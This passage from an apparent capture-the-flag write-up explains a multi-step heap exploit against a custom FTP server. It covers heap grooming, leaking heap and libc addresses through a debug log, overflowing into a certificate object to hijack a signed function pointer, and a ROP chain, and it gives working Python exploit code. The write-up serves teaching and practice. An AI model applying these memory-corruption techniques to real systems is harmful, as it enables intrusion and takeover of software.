 Therefore, the exploit plan is quite straightforward:

1. Groom the heap. By sending a `CERT` request with a 48-byte username (the same size as `Cert`), the username will be allocated after the 512-byte base64 buffer and subsequently freed, so it will be reused for future `Cert` allocations. We just send the following message right after connecting:

    ```
    # Groom heap
    payload = f"perms=0&user={'A' * 0x30}&sig=0"
    payload = payload.encode()
    send_cmd("CERT", base64.b64encode(payload))
    ```

2. Leak signatures and solve for the HSM signing keys as in stage 2
3. Log in with a valid cert (already done by the end of stage 2's exploit), send a 1024-byte input to set `authtype` to zero, and leak a heap address via the debug log
4. Log in with a valid cert again to allocate a `Cert` in the right place
5. Overflow from the base64 buffer into the `Cert` to overwrite the username with a GOT pointer; leak the resulting libc address via the debug log
6. `handleCertFTPServer` copies the part before `&sig=` into a stack buffer, and replaces newlines with null bytes. Use this to copy a ropchain into the stack. In the same payload, overflow from the base64 buffer in the `Cert` once more to overwrite the `computeSig` function pointer with a signed pointer to a gadget that will return into the ropchain.
7. When the login succeeds, the `computeSig` function pointer will get called to sign the perms+username. This calls our gadget, which will return into the ropchain that is already on the stack. In fact, a simple `pop; ret` gadget suffices because the stack buffer lies right at the bottom of the stack frame.

The leaked heap pointer turns out to be useful for constructing pointers to the base64 buffer, which can be used to insert additional data that is used by the ropchain (e.g. filenames).

Here's the new exploit code (full exploit in [`exploit3.py`](files/stage3/exploit3.py)):

```python
# Overflow input buffer by one to switch to User auth
send_cmd(b"TYPE", b"X" * (1024 - 6))
payload = b"perms=63&user=" + cyclic(0x30)
sig = sign(payload)
payload += b"&sig=%d" % sig
resp = send_cmd("CERT", base64.b64encode(payload))
logf = pasv_cmd("RETR", "ftp.log")

# Leak heap pointer from interpreting Cert.username (char *) as User.username (char[16])
heapleak = re.findall(b"Command CERT .+\nUser (......) : Command TYPE", logf)[-1]
heapleak = u64(heapleak.ljust(8, b"\0"))
heapbase = heapleak - 0x8010
log.info("heap base: %#x", heapbase)
inputaddr = heapbase + 0x5680
certaddr = heapbase + 0x5890

def setcert(authed=1, perms=0xff, username=certaddr):
    computeSig = signptr(exebase + 0x49c0) # use computeSigUser so we don't have to know what's at that address
    destructor = signptr(exebase + 0x56a0) # no-op to avoid freeing the object
    sig = sign(bytes([perms]) + p64(username)[:7])
    payload = b"X" * 0x208 + p64(0x41) + struct.pack("<QQQQQQ", authed, perms, username, sig, computeSig, destructor)
    send_cmd("CERT", base64.b64encode(payload))

# leak libc
setcert(username=exebase + 0x8e20) # getenv@got
logf = pasv_cmd("RETR", "ftp.log")
libcleak = re.findall(b"Command CERT .+\nUser (......) : Command PASV", logf)[-1]
libcleak = u64(libcleak.ljust(8, b"\0"))
libcbase = libcleak - 0x45ed0
```